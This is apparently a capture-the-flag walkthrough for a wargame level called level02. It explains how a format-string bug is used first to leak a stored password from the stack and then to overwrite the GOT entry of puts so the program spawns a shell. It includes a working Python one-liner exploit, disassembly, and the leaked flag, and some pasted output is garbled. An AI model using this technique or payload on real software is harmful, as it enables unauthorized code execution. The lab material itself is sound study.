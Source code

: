 # Walkthrough

## Solution
```
(python -c "print ('%4196972c%8\$ln') + '\n' + ('\xe0\x11\x60\x00\x00\x00\x00\x00')"; cat -) | ./level02
```  

## Explanation

### Execution

```
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: hello
--[ Password: test
*****************************************
hello does not have access!

```  
-> The program asks for a username and then a password


### Disassembly

You can view the commented asm code [here](resources/disassembly.asm)  
You can view the asm code translated to C [here](source.c)  


```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |\**************************************
/--[ Username: %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
--[ Password: 
*****************************************
0x7fffffffe4b0 (nil) 0x25 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6a8 0x1f7ff9a08 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x100207025 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```

-> En imprimant la stack, on voit nos %p (25 70 20 en hexa), et au milieu, un 5 blocs de valeurs qui pourraient correspondre au password (5 * 8 bytes = 40 | buf2 size = 41).  

```
0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d
```  

Les addresses sont en little endian, on doit donc les inverser:  
```
4868373452506e75 51397361354a4145 58674e5743717a37 7358476e68354a35 4d394b6650673348
```

  Convertir l'hexa en ascii:  -> cela nous donne `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`

```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |\**************************************/
--[ Username: test
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, test!
$ whoamilevel03
$ cat /home/users/level03/.pass
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```  

Le mot de passe était le flag...  


-----------------------------------------------  

```
$ (gdb) disas main
...
0x0000000000400a96 <+642>:    lea    rax,[rbp-0x70]		; buf1
0x0000000000400a9a <+646>:    mov    rdi,rax
0x0000000000400a9d <+649>:    mov    eax,
0x00x0000000000400aa2 <+654>:    call   0x4006c0 <printf@plt>	; printf(buf1)
0x0000000000400aa7 <+659>:    mov    edi,
0x400d3a0x0000000000400aac <+664>:    call   0x400680 <puts@plt>
0x0000000000400ab1 <+669>:    mov    edi,
0x10x0000000000400ab6 <+674>:    call   0x400710 <exit@plt>
```
-> The <printf> call at 0x0000000000400aa2 is vulnerable to string format attacks.  

It is calling puts afterwards. Let's try to change the puts address by the address of the "Greetings" below, so that it will launch a shell after that:  

```
   0x0000000000400a6c <+600>:	mov    $0x400d22,%eax			; "Greetings, %s!\n"
   0x0000000000400a71 <+605>:	lea    -0x70(%rbp),%rdx       ; buf1 in rax
   0x0000000000400a75 <+609>:	mov    %rdx,%rsi
   0x0000000000400a78 <+612>:	mov    %rax,%rdi
   0x0000000000400a7b <+615>:	mov    $0x0,%eax
   0x0000000000400a80 <+620>:	callq  0x4006c0 <printf@plt>
   0x0000000000400a85 <+625>:	mov    $0x400d32,%edi         ; "/bin/sh"
   0x0000000000400a8a <+630>:	callq  0x4006b0 <system@plt>
```  

Finding which argument we can control on the stack:  
```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: AAAAAAAA %p %p %p %p %p %p %p %p %p %p %p %p
--[ Password: BBBBBBBB
*****************************************
AAAAAAAA 0x7fffffffe4b0 (nil) 0x42 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6a8 0x1f7ff9a08 0x4242424242424242 (nil) (nil) (nil) (nil) does not have access!
```
-> It is the 8th argument  

```
$ objdump -R ./level02
...
00000000006011e0 R_X86_64_JUMP_SLOT  puts
...
```  

-> GOT address of puts : 00000000006011e0
-> Greetings address : 0x0000000000400a6c = 4196972  
```
(python -c "print ('%4196972c%8\$ln') + '\n' + ('\xe0\x11\x60\x00\x00\x00\x00\x00')"; cat -) | ./level02
```  

